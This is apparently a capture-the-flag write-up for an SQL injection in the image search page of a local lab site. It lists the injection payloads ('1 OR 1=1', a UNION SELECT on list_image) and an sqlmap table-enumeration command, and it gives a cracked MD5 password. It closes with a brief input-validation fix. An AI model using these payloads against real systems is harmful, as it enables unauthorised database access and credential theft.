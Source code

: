 # SQL Injection Image

In the image search page the form perfoms a DB search by id value provided by the client.

## Table of Contents

- [Steps](#Steps)
- [Vulnerabilities](#Vulnerabilities)
- [Ways to secure](#Ways to secure)

### Steps

* Proceed to <a href="http://192.168.0.108/?page=searchimg">search image page</a>

* In the search field enter then submit:
	1 OR 1=1

* Open your terminal

* Run reconnaissiance
```bash
	sqlmap "http://192.168.0.108/?page=searchimg&id=1&Submit=Submit#" --tables
```

* We want to UNION SELECT to append another select statement

* In the search field enter:
	1 OR 1=1 UNION SELECT id, comment FROM list_image

* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt the password</a>
	1928e8083cf461a51303633093573c46 --> albatroz

In your terminal run
```bash
        cd ./Resources

	py sha256encrypt.py albatroz
```

#### Ways to secure
Validate and sanitize client input on the server

